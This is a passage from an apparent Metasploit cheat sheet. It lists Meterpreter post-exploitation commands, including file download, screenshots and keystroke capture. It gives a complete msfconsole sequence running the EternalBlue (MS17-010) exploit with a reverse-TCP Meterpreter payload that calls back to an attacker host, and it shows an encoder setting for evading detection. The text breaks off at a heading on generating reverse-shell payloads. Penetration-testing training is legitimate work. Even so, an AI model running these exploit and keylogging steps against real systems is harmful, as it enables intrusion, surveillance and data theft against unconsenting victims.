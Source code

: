### 🔹 Meterpreter Commands (Windows/Linux)

|Command|Function|
|---|---|
|`sysinfo`|Get OS and hostname info|
|`getuid`|Shows current user|
|`shell`|Drop into shell prompt|
|`download`|Download file from target|
|`upload`|Upload file to target|
|`screenshot`|Take a screenshot|
|`keyscan_start`|Start keystroke capture|
|`keyscan_dump`|Dump captured keystrokes|

---

## 🧰 8. Exploit Example: Windows SMB

### 🔹 EternalBlue (MS17-010)

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
exploit
```

---

## 🛡️ 9. Evading Detection

### 🔹 Encoding Payloads

```bash
set ENCODER x86/shikata_ga_nai
```

### 🔹 Use `msfvenom` to create encoded payloads (outside msfconsole)

---

## 🧪 10. Generating Payloads with `msfvenom`

### 🔹 Reverse TCP Shell (Windows EXE)
